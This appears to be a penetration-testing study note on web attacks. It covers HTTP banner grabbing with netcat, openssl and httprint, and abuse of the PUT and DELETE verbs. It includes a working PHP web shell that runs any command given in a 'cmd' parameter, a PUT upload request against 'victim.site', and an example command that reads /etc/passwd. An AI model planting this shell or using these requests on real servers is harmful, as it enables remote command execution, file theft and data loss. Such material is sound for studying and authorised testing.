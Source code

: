 ### Web Attacks
- Banner grabbing: 
  - Can be obfuscated as admins can change the banner info. That's where automated tools like httprint excel, it will pick that up (signature-based)
  - Netcat (Manual: HTTP-ONLY)
    ```bash
    nc <target address> 80 
    HEAD / HTTP/1.0` #NOTE: PUT TWO EMPTY LINES AFTER! Also make sure the request is in UPPERCASE
    
    
    ```
   - If the banner grab is unsuccessful, it's probably because you left out the two extra empty lines after the request HEAD... that being the two empty lines after which the body goes if we had any.
      - Sometimes might get lucky and get even OS running on that server
  - OpenSSL (Manual: HTTPS) 
    - `openssl s_client -connect target.site:443`
    - `HEAD / HTTP/1.0`
  - httprint (Automated)
    ```bash
    httprint -P0 -h <target hosts> -s <signature files>
    httprint -P0 -h 1.2.3.4 -s /usr/share/httprint/signatures.txt #Example 
    ```
- HTTP Verbs
  - `OPTIONS` gives us enabled HTTP verbs on the host
  - **IMPORTANT: REST APIs use PUT/ DELETE to save files as normal operations, so do not report *ANY* verbs found without veryfing their impact**  
  - `PUT` is the most dangerous as it uploads files to a server. **NOTE: Must write the correct size of the uploaded content**
    ```bash 
      PUT /path/to/destination HTTP/1.1
      Host: www.website.com
      
      
      <PUT data> 
    ```
    ```bash 
      # Example
      nc vicitm.site 80
      PUT /payload.php HTTP/1.0
      Content-type: text/html
      Content-length: 20 # NOTE: You have to have know length of the contents before sending, wc -m payload.php gives us length in bytes
    ```
    - Great shell that works with `PUT`: 
      ```php
      <?php 
      if (isset($_GET['cmd']))
      {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '<pre>';
      }
      ?>
      ```
      - We can now send requests on the site with `victim.site/shellweUploaded?cmd=cat /etc/passwd`
  - `Delete` is another dangerous verb to lookout for - Deletes files off a server (DoS/ Data Loss)
    ```bash 
      DELETE /path/login.php HTTP/1.1 
      Host: www.website.com
    ```
  - `POST` parameters (form data) only work in the **message body**